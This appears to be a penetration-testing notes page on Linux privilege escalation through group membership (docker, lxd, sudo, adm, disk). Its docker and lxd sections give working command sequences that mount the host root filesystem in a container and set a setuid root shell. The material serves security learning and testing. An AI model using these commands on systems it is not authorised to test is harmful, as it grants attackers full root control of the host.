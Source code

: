 - **tags:** #linux #privesc #groups
- ------------------
# Abusing Special Groups
 Groups are used to organize users and assign permissions to access system resources. Users can belong to one or more groups, and groups can have different levels of permissions to access system resources.
## Vulnerable examples
- `docker`or `lxd`
If a user is a member of one of those groups he can deploy a `container` and taking advantage of mounts he has now access to the entire file system in the container. Any change made in the container side will take immediate effect on the actual host.
```shell
# docker
docker pull debian:latest
docker run --rm -dit -v /:/mnt/root --name privesc debian
docker exec -it privesc bash
cd /mnt/root/bin
chmod u+s bash

#lxd
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
lxc image import $filename --alias alpine && lxd init --auto                         
echo -e "[*] Listing images...\n" && lxc image list                                  
lxc init alpine privesc -c security.privileged=true                                  
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true 
lxc start privesc                                                                    
lxc exec privesc sh                                                                  
```
- `sudo`
Any member of this group can execute commands as `root` providing the user password.
- `adm`
All members of this group have access to the system `logs`.
- `disk`
Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.